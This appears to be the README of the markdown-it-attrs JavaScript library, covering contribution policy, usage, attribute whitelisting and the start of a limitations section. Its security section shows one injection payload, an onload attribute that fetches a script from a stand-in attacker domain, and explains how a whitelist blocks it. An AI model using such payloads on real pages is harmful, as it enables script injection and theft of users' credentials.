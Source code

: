 I'll approve pull requests that are easy to understand. Generally not willing
merge pull requests that increase maintainance complexity. Feel free to open
anyhow and I'll give my feedback.

If you need some extra features, I'm available for hire.

## Usage

```js
var md = require('markdown-it')();
var markdownItAttrs = require('markdown-it-attrs');

md.use(markdownItAttrs, {
  // optional, these are default options
  leftDelimiter: '{',
  rightDelimiter: '}',
  allowedAttributes: []  // empty array = all attributes are allowed
});

var src = '# header {.green #id}\nsome text {with=attrs and="attrs with space"}';
var res = md.render(src);

console.log(res);
```

[demo as jsfiddle](https://jsfiddle.net/arve0/hwy17omn/)


## Security
A user may insert rogue attributes like this:
```js
![](img.png){onload=fetch('https://imstealingyourpasswords.com/script.js').then(...)}
```

If security is a concern, use an attribute whitelist:

```js
md.use(markdownItAttrs, {
  allowedAttributes: ['id', 'class', /^regex.*$/]
});
```

Now only `id`, `class` and attributes beginning with `regex` are allowed:

```md
text {#red .green regex=allowed onclick=alert('hello')}
```

Output:
```html
<p id="red" class="green" regex="allowed">text</p>
```

## Limitations
markdown-it-attrs relies on markdown parsing in markdown-it, which means some
special cases are not possible to fix. Like using `_` outside and inside
attributes:

